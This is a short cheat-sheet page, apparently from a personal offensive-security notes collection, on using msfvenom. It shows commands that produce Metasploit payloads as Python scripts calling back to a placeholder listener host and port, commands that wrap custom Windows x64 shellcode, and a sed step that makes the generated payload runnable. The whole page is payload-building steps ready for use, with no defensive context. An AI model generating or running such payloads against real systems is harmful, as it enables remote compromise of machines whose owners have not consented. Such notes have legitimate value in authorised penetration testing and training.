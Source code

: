 # MSFVenom

Generate any type of payload from the metasploit framework.

```
$ msfvenom -p <payload> lhost=<IP> lport=<PORT> -f python-reflection -o payload.py
```

You can also generate a payload from a custom shellcode.

```
$ msfvenom -p generic/custom payloadfile=./shellcode.bin -a x64 --platform windows -f python-reflection -o payload.py
```

Finally, fix the payload by appending this line in the top.

```
$ sed -i '1s/^/import ctypes\n/' payload.py

$ sed -i '1iimport ctypes' payload.py
```

---
## References

### Backlinks

- [[01 - Command Line/E - Compilers/Cross Platform/Python|Compilers: Python]]